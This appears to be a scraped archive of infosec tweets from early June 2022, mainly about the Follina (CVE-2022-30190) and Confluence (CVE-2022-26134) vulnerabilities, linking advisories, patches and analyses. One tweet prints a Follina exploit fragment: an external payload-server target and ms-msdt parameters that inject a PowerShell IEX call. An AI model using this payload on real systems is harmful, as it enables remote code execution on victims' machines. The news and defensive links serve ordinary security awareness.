CVE-2022-30190 : Microsoft Windows Support Diagnostic Tool RCE https://t.co/IztgFGowq9
</blockquote>

* https://github.com/NafisiAslH/KnowledgeSharing/tree/main/CyberSecurity/Web/CVEs/CVE-2022/CVE-2022-30190?fbclid=IwAR0UczaWjJNKWTnlvZHCXsWhABuae0kDRKx3hj-wo0LS1y8TZ32HR5w9t3w

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>17</code></td>
<td>Favorites: <code>35</code></td>
</tr></table>

---

# Recon_InfoSec
**https://twitter.com/Recon_InfoSec/status/1532526015188180997 _at 2022-06-03, 00:54:09_**
<blockquote>
For teams dealing with CVE-2022-26134, see this blog post which analyzes a previous Confluence RCE (CVE-2019-3396). It may provide insight into how to approach a breach involving Confluence.

https://t.co/A9dKJHktyp
</blockquote>

* https://blog.reconinfosec.com/analysis-of-exploitation-of-cve-2019-3396

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>13</code></td>
<td>Favorites: <code>33</code></td>
</tr></table>

---

# USCERT_gov
**https://twitter.com/USCERT_gov/status/1532511428451631108 _at 2022-06-02, 23:56:11_**
<blockquote>
🚨 A RCE Vulnerability (CVE-2022-26134) in Atlassian's Confluence Server and Data Center is being actively exploited. ⛔ Block all internet traffic to and from those devices until an update is available and applied. @CISAgov's KEV now includes this vul: https://t.co/9vliOlJpmd https://t.co/YNltqOCDs7
</blockquote>

* https://go.usa.gov/xJDf2

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>16</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>76</code></td>
<td>Favorites: <code>97</code></td>
</tr></table>

---

# wvuuuuuuuuuuuuu
**https://twitter.com/wvuuuuuuuuuuuuu/status/1532498264242769925 _at 2022-06-02, 23:03:53_**
<blockquote>
"When initially analyzing the exploit, Volexity noted it looked similar to previous vulnerabilities that have also been exploited in order to gain remote code execution."

"It should also be noted that CVE-2022-26134 appears to be another command injection vulnerability."

👀
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>6</code></td>
<td>Favorites: <code>36</code></td>
</tr></table>

---

# briankrebs
**https://twitter.com/briankrebs/status/1532492461939085329 _at 2022-06-02, 22:40:49_**
<blockquote>
Atlassian is warning about a zero-day in Confluence (CVE-2022-26134). This is a pre-auth, remote code execution bug. No patch yet. Atlassian credits @Volexity which reported it after responding to different victims who got shells/backdoors via this flaw. https://t.co/3AgnpQ1fB3
</blockquote>

* https://confluence.atlassian.com/doc/confluence-security-advisory-2022-06-02-1130377146.html

<table><tr>
<td>Quotes: <code>16</code></td>
<td>Replies: <code>7</code></td>
<td>Retweets: <code>122</code></td>
<td>Favorites: <code>227</code></td>
</tr></table>

---

# HackingLZ
**https://twitter.com/HackingLZ/status/1532480905335345152 _at 2022-06-02, 21:54:54_**
<blockquote>
Whomp whomp “Confluence Security Advisory 2022-06-02
Confluence Server and Data Center - CVE-2022-26134 - Critical severity unauthenticated remote code execution vulnerability” https://t.co/LdcjCdNVSa
</blockquote>

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>28</code></td>
<td>Favorites: <code>99</code></td>
</tr></table>

---

# thezdi
**https://twitter.com/thezdi/status/1532380491311108096 _at 2022-06-02, 15:15:54_**
<blockquote>
Is exploiting a null pointer deref for LPE just a pipe dream? @izobashi shows the process discovering a couple of #Bitdefender AV bugs (CVE-2021-4198/CVE-2021-4199). The exploit leads to LPE by exploiting a link following issue. https://t.co/YH9f35RU6W
</blockquote>

* https://www.zerodayinitiative.com/blog/2022/6/1/is-exploiting-a-null-pointer-deref-for-lpe-just-a-pipe-dream

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>39</code></td>
<td>Favorites: <code>114</code></td>
</tr></table>

---

# oss_security
**https://twitter.com/oss_security/status/1532315596653596672 _at 2022-06-02, 10:58:01_**
<blockquote>
CVE-2022-1972: out-of-bound write in Linux netfilter subsystem leads to local privilege escalation: Posted by 张子明(明程) on Jun 02Hello,
 
 An out-of-bound write vulnerability was identified within the
 netfilter subsystem
 which can be exploited to… https://t.co/lLqUCOykeo
</blockquote>

* http://dlvr.it/SRV16J

<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>24</code></td>
<td>Favorites: <code>78</code></td>
</tr></table>

---

# wugeej
**https://twitter.com/wugeej/status/1532189210425577472 _at 2022-06-02, 02:35:49_**
<blockquote>
0-day [CVE-2022-30190] MS Offic RCE aka msdt follina

Target = "http://&lt;payload_server&gt;/payload.html!"
TargetMode = "External"

IT_RebrowseForFile=cal?c IT_SelectProgram=NotListed IT_BrowseForFile=h$(IEX('calc.exe'))i/../../../../../../Windows/System32

https://t.co/Bci6gVBWJn https://t.co/hc2TcRoOQt
</blockquote>

* https://github.com/PwnC00re/PoC-CVE-2022-30190?fbclid=IwAR07oJZ7iL0ZyuAXNOflJyttKodx7Tba9Zmp_38ulPpZHpi6GgCc4eYMxZg

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>139</code></td>
<td>Favorites: <code>337</code></td>
</tr></table>

---

# thecybermentor
**https://twitter.com/thecybermentor/status/1532051776651788293 _at 2022-06-01, 17:29:42_**
<blockquote>
Let's learn more about the newest exploit going around, Follina RCE - CVE-2022-30190.  Joe Helle takes us through and shows us a couple ways this exploitation works and what you can do to remedy this current issue.

https://t.co/uvIHdUi8QP

#follina #cve #exploitation https://t.co/uXciZocib3
</blockquote>

* https://tcm-sec.com/follina-rce-exploitation-cve-2022-30190/

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>46</code></td>
<td>Favorites: <code>148</code></td>
</tr></table>

---

# SonarSource
**https://twitter.com/SonarSource/status/1532019810619559939 _at 2022-06-01, 15:22:41_**
<blockquote>
⚠️ Horde Webmail is affected by an unpatched code vulnerability (CVE-2022-30287) that allows attackers to take over the mail server when a malicious email is opened. Learn more from our security research:

https://t.co/bgpUsljVR3

#appsec #security #vulnerability
</blockquote>

* https://blog.sonarsource.com/horde-webmail-rce-via-email/

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>30</code></td>
<td>Favorites: <code>74</code></td>
</tr></table>

---

# TheZDIBugs
**https://twitter.com/TheZDIBugs/status/1532010387062894592 _at 2022-06-01, 14:45:14_**
<blockquote>
[ZDI-22-806|CVE-2022-23088] FreeBSD 802.11 Network Subsystem Heap-based Buffer Overflow Remote Code Execution Vulnerability (CVSS 8.3) https://t.co/llalKSSlaZ
</blockquote>

* https://www.zerodayinitiative.com/advisories/ZDI-22-806/

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>16</code></td>
<td>Favorites: <code>33</code></td>
</tr></table>

---

# 0patch
**https://twitter.com/0patch/status/1532006627225784323 _at 2022-06-01, 14:30:17_**
<blockquote>
Free Micropatches For "Follina" Microsoft Diagnostic Tool Remote Code Execution 0day (CVE-2022-30190) #Follina
https://t.co/lyNPrgdObJ https://t.co/6UABGE6qor
</blockquote>

* https://blog.0patch.com/2022/06/free-micropatches-for-follina-microsoft.html

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>36</code></td>
<td>Favorites: <code>63</code></td>
</tr></table>

---

# campuscodi
**https://twitter.com/campuscodi/status/1531919227539570690 _at 2022-06-01, 08:43:00_**
<blockquote>
Trend Micro has a report out on the recent attacks targeting CVE-2022-29464, a remote code execution vulnerability in WSO2 servers

https://t.co/DYFAGxkiQn https://t.co/EQotRJbkyu
</blockquote>

* https://www.trendmicro.com/en_us/research/22/e/patch-your-wso2-cve-2022-29464-exploited-to-install-linux-compatible-cobalt-strike-beacons-other-malware.html

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>41</code></td>
<td>Favorites: <code>86</code></td>
</tr></table>

---

# cyb3rops
**https://twitter.com/cyb3rops/status/1531884486341840897 _at 2022-06-01, 06:24:57_**
<blockquote>
1/ The exploitation of CVE-2022-30190 #Follina isn’t hard to detect

In fact, proc creation logs with parent info are enough
https://t.co/fH8Ww1f6JA

It also isn’t hard to apply the workaround via GPO

The problem with this 0day is that 99% of the possible victims …
</blockquote>

* https://twitter.com/cyb3rops/status/1531154093451902978

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>40</code></td>
<td>Favorites: <code>125</code></td>
</tr></table>

---

